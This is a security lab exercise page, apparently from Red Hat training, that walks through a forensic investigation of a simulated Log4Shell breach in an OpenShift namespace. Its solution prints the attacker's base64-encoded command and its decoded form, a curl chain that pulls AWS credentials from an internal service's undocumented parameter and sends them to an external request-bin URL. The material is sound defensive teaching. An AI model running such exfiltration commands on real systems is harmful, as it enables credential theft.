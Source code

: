 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


## Context

It’s December 19, 2021 (yes, you read that right, two years earlier, to the day).

The AWS Cloud Team is alerting you that an AWS API key has been compromised and used to deploy crypto mining software.
Fortunately, your company prohibits the reuse of API keys for several uses: you are therefore certain of the origin of this data leak: it is the **visa-processor** application which uses this key. API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | fate | grep ^A
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note**: AWS API keys were redacted in the lab to avoid an unnecessary heart attack for **Red Hat** security teams. They were replaced by two humorous messages. :)

At the same time, the network team warns you of the presence of an unusual outgoing flow destined for servers also hosted on AWS.

```
$ dig +short public.requestbin.com
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName
OrgTechName: Amazon EC2 Network Operations
```
## Objective of the exercise

Your mission, if you accept it, is to investigate the Lab environment in search of the path taken by the attacker to perpetrate this data exfiltration.
The objective is achieved when you find the URL of the **Request Bin** used by the attacker to exfiltrate the API key.

![Request Bin showing exfiltrated AWS API key](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-Request-Bin.png)

## Up to you !

Clues:

- Start with the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`
- Switch to the **Network Graph V2** section and display the flows of the cluster **local-cluster**, namespace **data-theft**. Click on the **information-service** and **back-office** deployments and compare their flows. Which one seems most suspicious to you?
- Return to the **Violations** section and filter the view with the name of the deployment that seems most suspicious to you.

## Solution

{{%expand "Solution" %}}

Navigate to the **Violations** section and filter the view with `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-visa-processor-violations.png)

We note the presence of CVE but nothing very suspicious.

Switch to the **Network Graph** section and view the flows from the cluster **local-cluster**, namespace **data-theft**.

Click on the **back office** deployment.

![back-office network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-back-office-network-graph.png)

The observed flows appear legitimate.

Click on the **information-service** deployment.

![information-service network graph](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-network-graph.png)

Observe the inbound flow from the OpenShift router and the outbound flow to AWS.
Also note that the **information-service** deployment communicates with the **visa-processor** deployment.

Navigate to the **Violations** section and filter the view with `deployment:information-service namespace:data-theft`.

![information-services violations](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violations.png)

Note the presence of the **Log4Shell** vulnerability as well as suspicious behavior at runtime: **Shell Spawned by Java Application**.

Click on the **Shell spawned by Java Application** violation.

![information-services violation Shell Spawned by Java Application](/OPP-2023-lab-instruction.github.io//images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observe the command executed:

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5 IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Decode base64 encoded content (use the "base64 -d" command):

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR 5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

The first **curl** command exploits an application bug to retrieve the AWS API key.

Normally, the **visa-processor** component returns the value of its **APP_ID** environment variable:

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

But by passing an additional undocumented argument, we can retrieve the following environment variables (in alphabetical order):

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

The second **curl** command exfiltrates data via the **Request Bin** service.
Connect to [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) and confirm that the exfiltrated data is present.

{{% /expand%}}
